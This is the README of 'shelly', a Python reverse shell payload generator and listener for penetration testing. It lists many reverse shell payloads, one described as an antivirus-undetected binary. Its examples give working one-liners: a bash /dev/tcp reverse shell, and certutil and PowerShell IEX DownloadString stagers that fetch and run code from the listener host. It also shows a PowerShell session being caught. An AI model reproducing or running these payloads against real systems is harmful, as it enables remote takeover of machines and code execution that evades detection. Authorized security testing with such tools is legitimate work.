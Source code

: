 # shelly
(mainly reverse shell) payload generator (and shell catcher) written in python2.7 (now ported to v3)

Tool created to automate the creation of payloads to get a reverse shell, making easier to encode it, or serve it using a stager. It's made in a way that is very easy to add more payloads, stagers and connectors.

### Payloads
* reverse_icmp_powershell
* reverse_tcp6_python
* reverse_tcp_bash
* reverse_tcp_bash_setsid (using setsid)
* reverse_tcp_netcatbsd (no -e option)
* reverse_tcp_netcatbsd_noamp (no -e option, not using &)
* reverse_tcp_openssl (encrypts connection)
* reverse_tcp_openssl_noamp (encrypts connection, not using &)
* reverse_tcp_perl
* reverse_tcp_perl_noamp (not using &)
* reverse_tcp_php
* reverse_tcp_phpmonkey (oneliner based on pentest monkeys php rev shell)
* reverse_tcp_powercat (powershell, stager required)
* reverse_tcp_powershell
* reverse_tcp_python
* reverse_tcp_python_pty (prepared to make it interactive: ctr+z, stty raw -echo, fg)
* reverse_tcp_ruby
* reverse_tcp_win_shellexe (generates undetected atm reverse shell binary. Requires special stager)
* reverse_socat_ssl
* reverse_udp_dnscat2 (powershell, stager required)
* reverse_udp_netcatbsd (no -e option)
* reverse_udp_perl
* reverse_udp_python
* reverse_udp_python_pty (prepared to make it interactive: ctr+z, stty raw -echo, fg)

### Stagers
Various techinques used to deliver staged payloads. Only http at the moment:
* certutil & powershell -ep bypass -nop -f
* certutil & type 2 powershell -nop -
* echo IEX Webclient 2 powershell -nop -
* certutil & PARAM1\shell.exe LHOST LPORT
* certutil & PARAM1\file.exe PARAM2

### Connectors
Connectors are the confguration settings that allow to chatch the shell executed for the payload
* reverse_icmp_icmpsh (require have installed icmpsh and setup the connector file with correct path, elevated privs)
* reverse_tcp6_netcat
* reverse_tcp_ncat_ssl
* reverse_tcp_netcat
* reverse_tcp_rlwrap_netcat (NEW! Semi-interactive shell for windos w. histrory)
* reverse_tcp_openssl
* reverse_socat_ssl
* reverse_udp_dnscat2 (require have ruby + server installed and working prior to use it)
* reverse_udp_netcat

## Installation
* ```git clone https://github.com/ompamo/shelly.git```
* configure BASE_PATH on 'shelly' file. Default: /opt/shelly
* ```ln -s /opt/shelly/shelly /usr/local/bin/shelly```
* To enable bash-completion add to your ~/.bashrc file: ```eval "$(register-python-argcomplete shelly)"```
* Install required libs:```pip install -r requirements.txt```

## Extra features
* Auto copy payloads to paperclip (xclip required)
* Generate urlencoded payloads

## Examples
* Generating a reverse tcp bash shell payload
```
root@kali:/opt/shelly# ./shelly rev --payload reverse_tcp_bash --lhost 10.0.2.11 --lport 1234
[*] Payload generated:
/bin/bash -i >& /dev/tcp/10.0.2.11/1234 0>&1
```
* Getting the info for that payload
```
root@kali:/opt/shelly# ./shelly show payload reverse_tcp_bash
[*] bash TCP reverse shell payload
    Info          : bash command to spawn a reverse shell. No special opts required.
    Required Opts : ['LHOST', 'LPORT']
    Connector     : reverse_tcp_netcat
    Payload       : /bin/bash -i >& /dev/tcp/LHOST/LPORT 0>&1
```
* Checking stager info and spawning a PS reverse shell using a web stager on port 8080 and catching the shell
```
root@kali:/opt/shelly# ./shelly rev -p reverse_tcp_powershell -H 10.0.2.11 -P 4444 --stager web_certutil_type2powershell --sport 8080 --param1 c:\\Windows\\Tasks --listen 
[*] Payload generated:
certutil -urlcache -split -f http://10.0.2.11:8080/dJaBEjxo1r c:\Windows\Tasks\dJaBEjxo1r.txt & type c:\Windows\Tasks\dJaBEjxo1r.txt | powershell -nop -
[*] Serving stage at port 8080
10.0.2.4 - - [16/May/2018 14:58:31] "GET /dJaBEjxo1r HTTP/1.1" 200 -
[*] Part 1 of 2 sent
10.0.2.4 - - [16/May/2018 14:58:31] "GET /dJaBEjxo1r HTTP/1.1" 200 -
[*] Part 2 of 2 sent

[*] Reverse TCP Netcat listener - No additional info
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.0.2.4 49196 received!

PS C:\> 

```
* Also we can get it urlencoded (to work with ie with curl or other tools)
```
root@kali:/opt/shelly# ./shelly rev -p reverse_tcp_powershell -H 10.0.2.11 -P 4444 --stager web_echo2powershell --urlencode -l
[*] Payload generated:
echo%20IEX%28New-Object%20Net.WebClient%29.DownloadString%28%27http%3A%2F%2F10.0.2.11%3A80%2Fu5KWfOkL6b%27%29%20%7C%20powershell%20-nop%20-
[*] Serving stage at port 80
...
```
## Creating your own...
### Payloads
```
title=bash TCP reverse shell payload
info=bash command to spawn a reverse shell. No special opts required.
required_opts=LHOST;LPORT
connector=reverse_tcp_netcat
payload=/bin/bash -i >& /dev/tcp/LHOST/LPORT 0>&1
```
* Create a similar file, the uppercase keywords will be replaced with the data passed as parameters.
* Available params: LHOST, LPORT, PARAM1, PARAM2
* required contains the required parameters for the payload.
* Use an existent connector.
* If you need to configure a mulltilne payload (used with stagers), use multiline. Next payload and finish with %%payload_end%%

### Connectors
```
title=OpenSSL listener (encrypted)
info=If not working generate/create new cert in aux: openssl req -x509 -newkey rsa:1024 -keyout key.pem -out cert.pem -days 365 -nodes
required_opts=LPORT
app=/usr/bin/openssl
params=s_server;-quiet;-key;/opt/shelly/repo/auxiliary/key.pem;-cert;/opt/shelly/repo/auxiliary/cert.pem;-port;LPORT
pre_exec=
```
* Create a similar file, the uppercase keywords will be replaced with the data passed as parameters.
* Available params: LHOST, LPORT, PARAM1, PARAM2
* required_opts contains the required parameters for the connector.
* app contains connector binary path.
* params passed to the connector splitted by semicolons.
* pre_exec will contain a command executed just before launching the connector.

### Stagers
Only HTTP stagers working  at the  moment.
```
title=echo 2 powershell -nop -
info=Download the payload using powershell code echoed to powershell -nop -
required_opts=LHOST;SPORT
http_requests=1
payload=echo IEX(New-Object Net.WebClient).DownloadString('http://LHOST:SPORT/FILENAME') | powershell -nop -
```
* Create a similar file, the uppercase keywords will be replaced with the data passed as parameters.
* Available params: LHOST, SPORT, PARAM1, PARAM2
* required_opts contains the required parameters for the stager.
* http_resquests usually mus be 1, if not working try 2 or higher value.

### External scripts used on this project as payloads
* [PowerCat.ps1](https://github.com/besimorhino/powercat) from Besimorinho
* [Inovke-PowerShellIcmp.ps1](https://github.com/samratashok/nishang) from Samratashok
* [dnscat2.ps1](https://github.com/lukebaggett/dnscat2-powershell) from Luke Bagget
* [php-reverse-shell](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz) from PentestMonkey
* [Windows Revshell](https://github.com/infoskirmish/Window-Tools/tree/master/Simple%20Reverse%20Shell) form infoSkirmish

